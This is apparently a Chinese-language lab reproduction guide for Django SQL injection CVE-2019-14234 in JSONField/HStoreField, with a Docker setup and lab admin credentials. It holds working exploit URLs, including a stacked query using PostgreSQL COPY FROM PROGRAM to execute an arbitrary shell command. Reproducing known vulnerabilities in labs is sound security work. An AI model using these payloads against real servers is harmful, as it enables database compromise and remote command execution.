



# Django JSONField/HStoreField SQL 注入漏洞 CVE-2019-14234

## 漏洞描述

Django 在 2019 年 8 月 1 日发布了一个安全更新，修复了在 JSONField、HStoreField 两个模型字段中存在的 SQL 注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2019/aug/01/security-releases/
- https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html

该漏洞需要开发者使用了 JSONField/HStoreField，且用户可控 queryset 查询时的键名，在键名的位置注入 SQL 语句。Django 自带的后台应用 Django-Admin 中就存在这样的写法，我们可以直接借助它来复现漏洞。

## 漏洞影响

```
Django (1.11.x) Version < 1.11.23
Django (2.1.x) Version < 2.1.11
Django (2.2.x) Version < 2.2.4
```

## 环境搭建

Vulhub 执行如下命令编译及启动一个存在漏洞的 Django 2.2.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8000` 即可看到 Django 默认首页。

## 漏洞复现

首先登陆后台 `http://your-ip:8000/admin/`，用户名密码为 `admin`、`a123123123`。

登陆后台后，进入模型 `Collection` 的管理页面 `http://your-ip:8000/admin/vuln/collection/`：



然后在 GET 参数中构造 `detail__a'b=123` 提交，其中 `detail` 是模型 `Collection` 中的 JSONField：

```
http://your-ip:8000/admin/vuln/collection/?detail__a%27b=123
```

可见，单引号已注入成功，SQL 语句报错：



命令执行，执行 `touch /tmp/awesome_poc`，可以替换成其他命令并且执行。

```
http://your-ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'touch /tmp/awesome_poc'--%20 
```

提示 `no results to fetch` 即为执行成功。


